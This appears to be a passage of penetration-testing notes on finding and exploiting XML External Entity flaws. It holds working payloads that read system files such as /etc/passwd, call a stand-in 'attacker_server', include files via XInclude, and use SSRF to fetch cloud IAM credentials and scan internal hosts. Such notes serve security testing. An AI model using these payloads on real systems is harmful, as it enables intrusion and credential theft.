 	- browse the app function and find these XML entry points by decoding any blocks of data that look suspicious, search for `"<?xml"` or base64 `LD94bWw`, url-encode `%3C%3Fxml` 
	- you should also look for [[file upload]] features because XML forms the basis of many XML file types. If you can upload one of these file types (XML, HTML, DOCX, PPTX, XLSX, GPX, PDF, SVG, RSS feeds, metadata embedded within images like GIF, PNG, JPEG), you might be able to smuggle XML input to the application’s XML parser. SOAP web services are also XML based
	- In addition to looking for locations where the application accepts XML data by default, you can try to force the application into parsing XML data. send xml to endpoints take plaintext or JSON and change `Content-Type: text/xml` or `Content-Type: application/xml`
	- some applications receive user-submitted data and embed it into an XML document on the server side, you can submit an `XInclude` test payload to the endpoint
2.  test for **Classic XXE** by sending a few trial-and-error XXE payloads and observing the application’s response. 
	1. start by tests if DTD allowed or not
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ <!ENTITY test SYSTEM "Hello!"> ]> 
	<example>&test;</example>
	```
	2. try to get common files `/etc/hostname `, `~/.bash_history`
	 ```xml
	 <?xml version="1.0" encoding="ISO-8859-1"?>
	 <!DOCTYPE root [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
	 <root>&file;</root>
	 ```
	 3. if `SYSTEM` not allowed try `PUBLIC` with random `id`
	```xml
	 <?xml version="1.0" encoding="UTF-8"?> 
	 <!DOCTYPE example [ <!ENTITY test PUBLIC "abc" "file:///etc/hostname"> ]> <example>&test;</example>
	```
	don’t give up if the first few files you try to read do not display
3. Test for **Blind XXE**: If the server takes XML input but does not return the XML document in an HTTP response, first test if the server can make outbound connection, check your server logs.
   if u see the request then try Data Exfiltration from Escalating the Attack point
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt"> ]> <example>&test;</example>
	```
1. Embed XXE Payloads in Different File Types, cuz most of the time File-upload endpoints and file parsers not protected by the same XXE protection mechanisms more on [[File Upload]]
2. Test for XInclude Attacks, when you cannot control the entire XML document or edit the DTD of an XML document. but the application takes your input and inserts it into XML documents on the backend.
   *XInclude* is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`
	```xml
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
	<xi:include parse="text" href="file:///etc/passwd"/></foo>
	```
#### Escalating the Attack
What you can achieve with an XXE vulnerability depends on the permissions given to the XML parser
-  [[file Inclusion]] use `file` entity to access and exfiltrate system files, source code, and directory listings
- [[SSRF]] to pull instance metadata, port scanning
	```xml
	<?xml version="1.0" encoding="UTF-8"?> 
	<!DOCTYPE example [ 
	<!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> 
	<!ENTITY portScan SYSTEM "http://10.0.0.1:80">
	]> 
	<example>&file;</example>
	<scan>&portScan;</scan>	